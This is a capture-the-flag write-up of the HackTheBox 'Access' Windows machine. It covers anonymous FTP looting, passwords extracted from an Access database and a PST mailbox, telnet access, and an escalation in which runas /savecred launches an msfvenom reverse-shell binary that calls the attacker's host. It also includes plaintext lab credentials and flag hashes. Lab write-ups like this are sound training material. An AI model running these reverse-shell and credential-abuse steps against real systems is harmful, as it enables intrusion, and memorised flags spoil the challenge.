


---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
status: 3. Complete
tags:
  - Windows
  - anonymous-ftp
  - credentials-in-wcm
  - insecure-credentials
  - privesc/runas
---
# Resolution summary

- **Anonymous FTP** access allows to download a **Microsoft Access DataBase** file and a **password protected zip**
- Extracting data from the Microsoft Access file it is possible to obtain the **ZIP password** and extract the **Outlook Data File** contained inside
- Converting the .pst file into a **.mbox file** it is possible to obtain security **user's credentials** and to access within the machine using telnet
- Administrator **credentials** are stored **within the windows credentials manager**. It is possible to execute commands with its privileges using **runas** and thus obtain a high privileged shell

## Improved skills

- Password hunting
- Credentials re-usage

## Used tools

- nmap
- mdb-tables
- readpst
- msfvenom

---

# Information Gathering

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Access]
└─$ sudo nmap -sS -p80,23,21 -sC -sV -Pn 10.10.10.98 -oN scans/open-ports.txt   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 16:47 EDT
Nmap scan report for 10.10.10.98
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.52 seconds
```

# Enumeration

## Port 21 - FTP

FTP Anonymous Access:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Access]
└─$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
...
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> get backup.mdb 
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
5652480 bytes received in 5.21 secs (1.0337 MB/s)
...
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
10870 bytes received in 0.16 secs (64.7934 kB/s)
```

Read backup.mdb

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Access/loot]
└─$ mdb-tables backup.mdb | sed 's/ /\n/g' > backup_tables

┌──(kali㉿kali)-[~/…/HTB/box/Access/loot]
└─$ for i in $(cat backup_tables); do echo "Dump $i" | tee -a table_dump; mdb-export backup.mdb $i | tee -a table_dump; done
Dump acc_antiback
id,change_operator,change_time,create_operator,create_time,delete_operator,delete_time,status,device_id,one_mode,two_mode,three_mode,four_mode,five_mode,six_mode,seven_mode,eight_mode,nine_mode,AntibackType
Dump acc_door
id,change_operator,change_time,create_operator,create_time,delete_operator,delete_time,status,device_id,door_no,door_name,lock_delay,back_lock,sensor_delay,opendoor_type,inout_state,lock_active_id,long_open_id,wiegand_fmt_id,card_intervaltime,reader_type,is_att,door_sensor_status,map_id,duration_apb,force_pwd,supper_pwd,reader_io_state,open_door_delay,door_normal_open,enable_normal_open,disenable_normal_open,wiegandInType,wiegandOutType,wiegand_fmt_out_id,SRBOn,ManualCtlMode,ErrTimes,SensorAlarmTime,InTimeAPB
Dump acc_firstopen
id,change_operator,change_time,create_operator,create_time,delete_operator,delete_time,status,door_id,timeseg_id
Dump acc_firstopen_emp
id,accfirstopen_id,employee_id
Dump acc_holidays
id,change_operator,change_time,create_operator,create_time,delete_operator,delete_time,status,holiday_name,holiday_type,start_date,end_date,loop_by_year,memo,HolidayNo,HolidayTZ
...
Dump auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
...
```

Read Access Control.zip

>[!important]
>Password: access4u@security

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Access/loot]
└─$ readpst Access\ Control.pst
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.

┌──(kali㉿kali)-[~/…/HTB/box/Access/loot]
└─$ ls
'Access Control.mbox'  'Access Control.pst'  'Access Control.zip'   backup.mdb   backup_tables   table_dump

┌──(kali㉿kali)-[~/…/HTB/box/Access/loot]
└─$ head -n 30 Access\ Control.mbox
From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-304379163_-_-"

----boundary-LibPST-iamunique-304379163_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-304379163_-_-"

--alt---boundary-LibPST-iamunique-304379163_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,

John
```

## Port 23 - Telnet

>[!important]
>admin:admin
>engineer:access4u@security
>backup_admin:admin
>security:4Cc3ssC0ntr0ller

Engineer is not enabled:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Access/loot]
└─$ telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: engineer
password: 
Access Denied: Specified user is not a member of TelnetClients group.
Server administrator must add this user to the above group.

Telnet Server has closed the connection
Connection closed by foreign host.
```

Security is enabled:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Access/loot]
└─$ telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>
```

## Port 80 - HTTP

**Microsoft-IIS/7.5**



# Exploitation

## Credential leakage

Login inside the box through telnet using security’s valid credential:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Access/loot]
└─$ telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>
```

# Privilege Escalation

## Information gathering

User information enumeration:

```bash
C:\Users\security>whoami
access\security

C:\Users\security>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\Users\security>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID                                        Attributes                                        
====================================== ================ ========================================== ==================================================
Everyone                               Well-known group S-1-1-0                                    Mandatory group, Enabled by default, Enabled group
ACCESS\TelnetClients                   Alias            S-1-5-21-953262931-566350628-63446256-1000 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                               Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                    Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                Mandatory group, Enabled by default, Enabled group

C:\Users\security>net user

User accounts for \\ACCESS

-------------------------------------------------------------------------------
Administrator            engineer                 Guest                    
security                 
The command completed successfully.
```

Service information enumeration:

```bash
C:\Users\security>netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       1128
  TCP    0.0.0.0:23             0.0.0.0:0              LISTENING       1244
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       696
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       364
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       780
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       848
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       476
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       484
  TCP    10.10.10.98:23         10.10.14.14:54200      ESTABLISHED     1244
  TCP    [::]:21                [::]:0                 LISTENING       1128
  TCP    [::]:23                [::]:0                 LISTENING       1244
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       696
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       364
  TCP    [::]:49153             [::]:0                 LISTENING       780
  TCP    [::]:49154             [::]:0                 LISTENING       848
  TCP    [::]:49155             [::]:0                 LISTENING       476
  TCP    [::]:49156             [::]:0                 LISTENING       484
  UDP    0.0.0.0:123            *:*                                    924
  UDP    0.0.0.0:500            *:*                                    848
  UDP    0.0.0.0:4500           *:*                                    848
  UDP    0.0.0.0:5355           *:*                                    824
  UDP    [::]:123               *:*                                    924
  UDP    [::]:500               *:*                                    848
  UDP    [::]:4500              *:*                                    848
  UDP    [::]:5355              *:*                                    824
```

## Credentials Stored in WCM - Runas privilege escalation

Reverse shell binary set up:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Access/exploit]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -e x86/shikata_ga_nai -i 3 -f exe -o rs.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai chosen with final size 405
Payload size: 405 bytes
Final size of exe file: 73802 bytes
Saved as: rs.exe

┌──(kali㉿kali)-[~/…/HTB/box/Access/exploit]
└─$ sudo impacket-smbserver kali . -smb2support
[sudo] password for kali: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
```

Use saved creds and execute the reverse shell:

```bash
C:\Users>cmdkey /list

Currently stored credentials:

  Target: Domain:interactive=ACCESS\Administrator
	Type: Domain Password
  User: ACCESS\Administrator

C:\Users>runas /savecred /user:ACCESS\Administrator "\\10.10.14.14\kali\rs.exe"
```

Obtain the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Access/exploit]
└─$ sudo nc -nlvp 443                                                                                                                                         
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.98] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
access\administrator
ACCESS
6e1586cc7ab230a8d297e8f933d904cf
Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACCESS
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-27-8B
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::7c48:cecb:9403:fd02(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::7c48:cecb:9403:fd02%11(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.98(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Disabled

Tunnel adapter isatap.{851F7B02-1B91-4636-BB2A-AAC45E5735BC}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```



# Trophy

>[!quote]
>There is no greater education than one that is self-driven
\- Neil deGrasse Tyson
 

>**User.txt**
>ff1f3b48913b213a31ff6756d2553d38


>**Root.txt**
>6e1586cc7ab230a8d297e8f933d904cf

